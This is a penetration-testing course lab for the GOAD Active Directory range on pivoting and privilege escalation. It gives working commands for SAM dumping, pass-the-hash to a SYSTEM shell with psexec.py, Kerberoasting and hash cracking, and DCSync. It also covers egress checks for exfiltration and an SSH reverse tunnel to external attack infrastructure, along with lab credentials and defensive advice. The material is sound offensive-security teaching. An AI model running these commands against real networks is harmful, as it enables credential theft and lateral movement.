









# Lab - Pivot and Escalate

???+ warning "Prerequisites"
    You will need both `GOAD-DC02` (`192.168.56.11`) and `GOAD-SRV02` (`192.168.56.22`) VMs running for this lab.

    You should have completed the following labs:

    - **Responder & Impacket** (hash capture concepts)
    - **Hashcat** (cracked `robb.stark` credentials)
    - **NetExec w/ Creds** (credential-based enumeration)
    - **BloodHound & PlumHound** (attack path visualization)

## Intro

Welcome to the capstone lab of the course. Throughout Day 2, you've captured hashes with Responder, cracked them with Hashcat, enumerated the domain with NetExec, and mapped attack paths with BloodHound. Now it's time to put everything together.

This lab is structured as a **"choose your own adventure"** with two scenarios you can follow:

???+ info "Scenario A: Domain Admin Capabilities"
    Discover that your compromised user (`robb.stark`) already has Domain Admin privileges, then demonstrate what an attacker can do with this access and **pivot** to another machine using harvested credentials.

    **Best for**: Understanding post-compromise capabilities and lateral movement.

???+ info "Scenario B: AD Escalation Techniques"
    Learn the classic Active Directory escalation techniques (Kerberoasting, hash cracking, privilege escalation) even when the specific attack path doesn't lead to full domain compromise.

    **Best for**: Learning the techniques you'll use on real engagements.

You can complete one or both scenarios. Let's start with some key definitions:

???+ note "Pivoting vs Escalation"
    - **Pivoting (Lateral Movement)**: Using credentials or access from one system to move to *another* system. Example: Using credentials harvested from DC02 to access SRV02.
    - **Privilege Escalation**: Increasing your access level on the *same* system or domain. Example: Going from standard user to Domain Admin.

---

## Scenario A: Domain Admin Capabilities

In this scenario, you'll discover that `robb.stark` already has elevated privileges and demonstrate what an attacker can accomplish with Domain Admin access.

### Step A1: Validate and Discover Privileges

First, confirm your credentials work:

```bash
nxc smb 192.168.56.11 -u robb.stark -p sexywolfy
```

???- note "Command Options/Arguments Explained"
    - `nxc smb`: NetExec targeting SMB protocol
    - `192.168.56.11`: GOAD-DC02 domain controller IP
    - `-u robb.stark -p sexywolfy`: Domain credentials obtained from Hashcat lab
    - Expected output: `[+]` indicating successful authentication
    - Look for `(Pwn3d!)` which indicates admin access on the target

You should see successful authentication with `(Pwn3d!)` indicating admin access. But let's understand *why* we have this access.

{ width="70%" }
///caption
Validating Credentials with NetExec
///

#### Discovering Group Memberships in BloodHound

Open BloodHound (start Neo4j first if needed) and search for `robb.stark`. Click on the node to view its properties and group memberships.

You'll discover that `robb.stark` is a member of **ADMINISTRATORS@NORTH.SEVENKINGDOMS.LOCAL** - meaning we already have Domain Admin privileges!

{ width="70%" }
///caption
robb.stark Group Memberships in BloodHound
///

???+ tip "Real-World Insight"
    This happens more often than you'd think on real engagements. Initial compromise sometimes gives you more access than expected. Recognizing and exploiting existing privileges is a critical skill.

### Step A2: Enumerate with DA Access

With Domain Admin access, let's see what we can enumerate. If you completed the NetExec w/ Creds lab, you've already done some of this:

```bash
nxc smb 192.168.56.10-23 -u robb.stark -p sexywolfy --shares
```

???- note "Command Options/Arguments Explained"
    - `--shares`: Enumerate accessible SMB shares on each target
    - With DA access, you'll see admin shares like `C$`, `ADMIN$`, and `IPC$`
    - These administrative shares enable remote management and lateral movement

{ width="70%" }
///caption
Share Enumeration with DA Access
///

### Step A3: Dump Credentials

One of the most powerful capabilities of Domain Admin access is the ability to extract credentials from domain systems.

```bash
nxc smb 192.168.56.10-23 -u robb.stark -p sexywolfy --sam
```

???- note "Command Options/Arguments Explained"
    - `--sam`: Dumps the Security Account Manager database from each target
    - Contains local user accounts and their NTLM password hashes
    - Requires local Administrator access on each target
    - Common finding: Organizations often reuse the same local admin password across systems

You should see output including the local Administrator hash. Note this hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
```

The NTLM hash is: `dbd13e1c4e338284ac4e9874f7de6ef4`

{ width="70%" }
///caption
SAM Credential Dump
///

???+ warning "Password Reuse Finding"
    In the GOAD environment, you'll notice the Administrator hash is the same on both WINTERFELL (DC02) and CASTELBLACK (SRV02). This is a common real-world misconfiguration that enables easy lateral movement.

### Step A4: Pass-the-Hash - The Pivot

Now for the **pivot**. We've harvested credentials from DC02 - let's use them to access a different machine (SRV02).

**This is lateral movement**: We're using credentials obtained from one system to authenticate to another.

First, verify the hash works:

```bash
nxc smb 192.168.56.22 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
```

???- note "Command Options/Arguments Explained"
    - `-H 'HASH'`: Pass-the-hash using NTLM hash instead of password
    - `--local-auth`: Authenticate as a local account (not domain)
    - `192.168.56.22`: SRV02 (CASTELBLACK) - our pivot target
    - Why SRV02?: The DC has AV that blocks some remote execution tools. SRV02 is a cleaner target for demonstration.

You should see `(Pwn3d!)` indicating successful authentication with admin access.

{ width="70%" }
///caption
Pass-the-Hash to SRV02
///

### Step A5: Get Interactive Shell on SRV02

This is the culmination of the pivot: **Forge → (credentials from DC02) → SRV02**

```bash
psexec.py 'north.sevenkingdoms.local/Administrator@192.168.56.22' -hashes ':dbd13e1c4e338284ac4e9874f7de6ef4'
```

???- note "Command Options/Arguments Explained"
    - `psexec.py`: Impacket tool that uploads a service binary and executes it for remote shell access
    - `'DOMAIN/Administrator@target'`: The account and target system
    - `-hashes ':NTLM_HASH'`: Pass-the-hash format (LM:NTLM, we leave LM empty)
    - What happens: Authenticates via SMB, uploads a service binary to ADMIN$, creates and starts the service, returns an interactive shell

If successful, you'll have a SYSTEM shell on CASTELBLACK:

```
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
castelblack
```

{ width="70%" }
///caption
SYSTEM Shell on CASTELBLACK via psexec.py
///

???+ tip "Alternative Methods"
    If psexec.py doesn't work (AV, permissions, etc.), try these alternatives:

    **smbexec.py** (uses native Windows services):
    ```bash
    smbexec.py 'north.sevenkingdoms.local/Administrator@192.168.56.22' -hashes ':dbd13e1c4e338284ac4e9874f7de6ef4'
    ```

    **NetExec command execution** (single commands):
    ```bash
    nxc smb 192.168.56.22 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth -x 'whoami'
    ```

**Congratulations!** You've successfully pivoted from The Forge to SRV02 using credentials harvested from DC02. This demonstrates how attackers move laterally through networks.

---

## Scenario B: AD Escalation Techniques

In this scenario, you'll learn the classic Active Directory escalation techniques. While the specific GOAD configuration doesn't provide a clean escalation path through these techniques, understanding them is essential for real engagements.

### Step B1: Identify Kerberoastable Accounts

Kerberoasting targets accounts with Service Principal Names (SPNs). We request service tickets encrypted with these accounts' password hashes, then crack them offline.

In BloodHound, run the pre-built query: **"List all Kerberoastable Accounts"**

You'll find several accounts including:

- `jon.snow` (CIFS/thewall, HTTP/thewall)
- `sansa.stark` (HTTP/eyrie)
- `sql_svc` (MSSQLSvc/castelblack)

{ width="70%" }
///caption
Kerberoastable Accounts in BloodHound
///

### Step B2: Kerberoasting with Impacket

Extract TGS hashes for all Kerberoastable accounts:

```bash
GetUserSPNs.py 'north.sevenkingdoms.local/robb.stark:sexywolfy' -dc-ip 192.168.56.11 -request -outputfile ~/tgs_hashes.txt
```

???- note "Command Options/Arguments Explained"
    - `GetUserSPNs.py`: Impacket tool for Kerberoasting attacks
    - `'DOMAIN/user:password'`: Authentication credentials
    - `-dc-ip`: Domain controller to query
    - `-request`: Actually request the TGS tickets (not just enumerate)
    - `-outputfile`: Save hashes in hashcat-compatible format
    - What's happening: We request Kerberos service tickets. The DC encrypts these with the service account's password hash. We can crack these offline without triggering lockouts.
    - **Alternative with Kerberos auth**: Use `-k -no-pass` if you have a valid Kerberos ticket (ccache file):
      ```bash
      GetUserSPNs.py -k -no-pass -dc-ip 192.168.56.11 'north.sevenkingdoms.local/robb.stark'
      ```

You should see output listing the discovered SPNs and accounts.

{ width="70%" }
///caption
Kerberoasting with GetUserSPNs.py
///

### Step B3: Crack TGS Hashes

Crack the extracted hashes using Hashcat mode 13100 (Kerberos 5 TGS-REP):

```bash
hashcat -m 13100 ~/tgs_hashes.txt /usr/share/eaphammer/wordlists/rockyou.txt --force
```

???- note "Command Options/Arguments Explained"
    - `-m 13100`: Hash mode for Kerberos 5 TGS-REP etype 23 (RC4-HMAC)
    - `--force`: Required in VM environments to bypass hardware warnings
    - Why this works: Service accounts often have weaker passwords because they're set once and forgotten

View the cracked results:

```bash
hashcat -m 13100 ~/tgs_hashes.txt --show
```

You should crack `jon.snow`'s password: `iknownothing`

{ width="70%" }
///caption
Cracked TGS Hash - jon.snow:iknownothing
///

### Step B4: Validate New Credentials

Test the cracked credentials:

```bash
nxc smb 192.168.56.11-22 -u jon.snow -p iknownothing
```

You'll see successful authentication, but **no `(Pwn3d!)`** - meaning `jon.snow` doesn't have admin access on these systems.

{ width="70%" }
///caption
jon.snow - Valid Credentials but No Admin Access
///

???+ note "Why No Escalation?"
    In GOAD, `jon.snow` is a member of "Night Watch" with service SPNs but no administrative privileges. This is actually good security practice - service accounts shouldn't have unnecessary privileges.

    On real engagements, you'd check BloodHound for:

    - Group memberships (Domain Admins, Backup Operators, etc.)
    - ACL-based attack paths (GenericAll, WriteDACL, etc.)
    - DCSync rights (Replicating Directory Changes)

### Step B5: Understanding DCSync

DCSync is an attack where we impersonate a Domain Controller and request password replication data. It requires **Replicating Directory Changes** privileges.

The command syntax is:

```bash
secretsdump.py 'north.sevenkingdoms.local/USER:PASSWORD@192.168.56.11' -just-dc
```

???- note "Command Options/Arguments Explained"
    - `secretsdump.py`: Impacket tool for extracting secrets
    - `-just-dc`: Only perform DCSync (don't dump local SAM/LSA)
    - Successful output includes all domain account NTLM hashes
    - Key targets: `Administrator` (DA access) and `krbtgt` (Golden Ticket)

???+ warning "Lab Environment Note"
    In GOAD, DCSync may not work even with `robb.stark` (who has DA membership) due to specific permission configurations. On real engagements, Domain Admins typically have DCSync rights by default.

    If you completed the NetExec w/ Creds lab with `--ntds`, you've already extracted these hashes through a similar mechanism.

### Step B6: Pass-the-Hash Concepts

Even though we couldn't escalate through jon.snow, let's understand pass-the-hash using the hashes we DO have.

From the SAM dump or NTDS extraction, you have the Administrator hash. The technique works the same regardless of how you obtained the hash:

```bash
# Verify hash works
nxc smb 192.168.56.22 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth

# Get shell
psexec.py 'north.sevenkingdoms.local/Administrator@192.168.56.22' -hashes ':dbd13e1c4e338284ac4e9874f7de6ef4'
```

???+ tip "The Escalation Mindset"
    Real-world escalation often requires chaining multiple techniques:

    1. Kerberoast a service account
    2. Use that account's access to reach a new system
    3. Dump credentials from that system
    4. Find a privileged account or hash
    5. DCSync or PtH to Domain Admin

    The GOAD lab simplifies this by giving you DA access early, but understanding each technique individually prepares you for more complex scenarios.

---

## Key Takeaways

### Terminology Recap

| Term | Definition |
|------|------------|
| **Pivoting / Lateral Movement** | Using access on one system to reach another system |
| **Privilege Escalation** | Increasing access level (user → admin → DA) |
| **Pass-the-Hash** | Authenticating with NTLM hash instead of password |
| **Kerberoasting** | Extracting service ticket hashes for offline cracking |
| **DCSync** | Impersonating a DC to request password replication |

### Attack Chain Summary

**Scenario A** demonstrated:

1. Discovering existing privileges via BloodHound
2. Leveraging DA access to dump credentials
3. **Pivoting** to SRV02 using harvested hashes
4. Getting an interactive shell via pass-the-hash

**Scenario B** demonstrated:

1. Identifying Kerberoastable accounts
2. Extracting and cracking TGS hashes
3. Validating new credentials (even without escalation)
4. Understanding DCSync and PtH techniques

### Defensive Recommendations

| Attack | Defense |
|--------|---------|
| **Kerberoasting** | Use 25+ character random passwords for service accounts. Implement Group Managed Service Accounts (gMSAs). |
| **Credential Dumping** | Enable Credential Guard. Use LAPS for unique local admin passwords. Implement tiered administration. |
| **Pass-the-Hash** | Disable NTLM where possible. Use Protected Users group. Implement Privileged Access Workstations. |
| **Lateral Movement** | Segment networks. Monitor for anomalous authentication. Implement just-in-time administration. |
| **DCSync** | Limit accounts with Replicating Directory Changes. Monitor for unusual replication traffic. |

### Persistence (For Awareness)

With the access demonstrated in this lab, an attacker could establish persistence via:

- **Golden Ticket**: Using the `krbtgt` hash to forge tickets as any user (valid for 10 years by default)
- **Silver Tickets**: Forging service tickets without contacting the DC
- **Skeleton Key**: Injecting a master password into DC memory
- **Backdoor Accounts**: Creating new Domain Admin accounts

Understanding these techniques helps defenders detect and respond to compromise.

---

## Optional: Other Operator Techniques

???+ info "Optional"
    This section covers additional techniques for students who want to explore further. These are not required for the core lab but represent real-world attack patterns.

### Operator Pre-Checks

Before pivoting externally or establishing C2, smart operators check what egress is allowed. From a compromised host, test:

| Check | Why It Matters |
|-------|----------------|
| **Pastebin access** | Data exfiltration potential |
| **Google login** | OAuth abuse, token theft |
| **GitHub access** | Tool staging, PowerShell download cradles |
| **External HTTP server** | File transfer via `python -m http.server` |

```bash
# Quick connectivity checks from compromised host
curl -s https://pastebin.com > /dev/null && echo "Pastebin: OK" || echo "Pastebin: BLOCKED"
curl -s https://github.com > /dev/null && echo "GitHub: OK" || echo "GitHub: BLOCKED"
curl -s https://raw.githubusercontent.com > /dev/null && echo "GitHub Raw: OK" || echo "GitHub Raw: BLOCKED"
```

???+ tip "Why This Matters"
    Content filtering and egress controls vary widely. Knowing what's allowed helps you choose appropriate exfil channels, tool staging methods, and C2 protocols.

#### Egress Port Scanning (PowerShell)

For a more comprehensive egress check, scan all TCP ports from a Windows host to an external server you control. The external server should be configured to respond as open on all ports (e.g., using `socat` or a similar listener).

```powershell
1..65535 | % {$test=new-object system.Net.Sockets.TcpClient; $wait = $test.beginConnect("YOUR_EGRESS_TEST_SERVER",$_,$null,$null); ($wait.asyncwaithandle.waitone(250,$false)); if($test.Connected){echo "$_ open"}else{echo "$_ closed"}} | select-string " " | Out-File -Encoding ascii tcp-port-status.txt
get-content .\tcp-port-status.txt | select-string "open" | measure-object -Line
```

???- note "Command Options/Arguments Explained"
    - `1..65535`: Iterate through all TCP ports
    - `TcpClient.beginConnect`: Asynchronous connection attempt to each port
    - `waitone(250,$false)`: 250ms timeout per port
    - `YOUR_EGRESS_TEST_SERVER`: Replace with your external server configured to accept all ports
    - Output: Creates `tcp-port-status.txt` with open/closed status, then counts open ports
    - **Setup required**: Your external server must respond on all ports for accurate results (e.g., `socat` listening on all ports)

???+ warning "Time Warning"
    This scan takes a while to complete (65,535 ports at 250ms each = ~4.5 hours worst case). Consider scanning common egress ports first (80, 443, 8080, 8443) or running in the background.

### SSH Reverse Tunnel for Proxychains

When you need to route attack tools through a compromised host to reach internal networks, SSH reverse tunneling creates a SOCKS proxy:

```bash
ssh -i ~/.ssh/pivot -R 9050 root@YOUR_EXTERNAL_IP
```

???- note "Command Options/Arguments Explained"
    - `-i ~/.ssh/pivot`: SSH private key for authentication
    - `-R 9050`: Create a reverse SOCKS proxy on port 9050 on the remote server
    - `root@YOUR_EXTERNAL_IP`: Your external attack infrastructure
    - What happens: Traffic sent to port 9050 on your external server gets tunneled through the SSH connection and exits from the compromised host

**Configure proxychains** to use the tunnel:

```bash
# Edit /etc/proxychains.conf
# Add at the bottom:
socks5 127.0.0.1 9050
```

Then run tools through the tunnel:

```bash
proxychains nxc smb 10.10.10.0/24 -u user -p password
```

???+ tip "Real-World Use Case"
    You've compromised a workstation that can reach internal servers your attack box can't. SSH tunnel lets you run Impacket, NetExec, etc. from your machine while the traffic exits from the compromised host.

### Certipy - AD Certificate Services

???+ info "Exploration Only"
    ADCS attacks require the `essos.local` domain which isn't part of the core class VMs. This section is for students who want to explore on their own.

Active Directory Certificate Services (ADCS) is frequently misconfigured, leading to privilege escalation paths known as ESC1-ESC8.

**Sample enumeration command**:

```bash
certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.56.12
```

???- note "Command Options/Arguments Explained"
    - `certipy find`: Enumerate certificate templates and CA configurations
    - `-u khal.drogo@essos.local`: Domain credentials for authentication
    - `-dc-ip 192.168.56.12`: Domain controller for the essos.local domain
    - Output: JSON/text report identifying vulnerable certificate templates

**Common ADCS escalation paths**:

- **ESC1**: Misconfigured certificate templates allowing arbitrary SANs
- **ESC4**: Vulnerable template ACLs allowing modification
- **ESC8**: NTLM relay to AD CS HTTP endpoints

For more information, see the [Certipy documentation](https://github.com/ly4k/Certipy).

---

## Lab Cleanup

No specific cleanup is required beyond stopping running tools.

To practice again:

1. Clear hashcat potfile: `rm ~/.local/share/hashcat/hashcat.potfile`
2. Remove extracted hashes: `rm ~/tgs_hashes.txt`
3. GOAD VMs can be reverted to snapshots if needed

## What's Next?

You've completed the core Day 2 labs and demonstrated pivoting and escalation techniques in an Active Directory environment. The optional labs cover additional tools like AD Miner and bonus VMs for extended practice.
